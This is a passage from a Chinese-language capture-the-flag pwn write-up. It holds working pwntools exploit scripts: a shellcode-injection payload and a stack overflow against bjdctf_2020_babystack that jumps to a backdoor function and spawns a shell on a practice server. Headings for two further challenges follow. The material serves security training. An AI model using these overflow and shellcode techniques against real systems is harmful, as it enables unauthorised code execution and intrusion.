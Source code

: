 ```python
payload_01 += p32(mem_addr)
payload_01 += p32(0x100)

payload_01 += p32(mem_addr)

sh.sendline(payload_01)
payload_sh = asm(shellcraft.sh(),arch = 'i386', os = 'linux') 

sh.sendline(payload_sh)
sh.interactive()
```



# bjdctf_2020_babystack

64位，动态链接，NX打开

![image-20220313022109457](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853192.png)

输入的nbytes作为read的第三个参数，因此输入0x10 + 8 + 8即足够跳转到后门函数

![image-20220313022452974](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853885.png)

![image-20220313022457045](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853963.png)

编写脚本

```python
from pwn import *
#from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')   #64位
host='node4.buuoj.cn'
port=28832
io=remote(host,port)
#io=process()
elf=ELF("./pwn")

io.sendlineafter(b"name:",b'32')
backdoor_addr = elf.symbols["backdoor"] 
payload = cyclic(0x18) + p64(backdoor_addr)
io.sendlineafter(b"name?",payload)
io.interactive()
```

# ciscn_2019_en_2

基本和  ciscn_2019_c_1  做法一致，IDA反编译的结构都是一样的

# *[HarekazeCTF2019]baby_rop
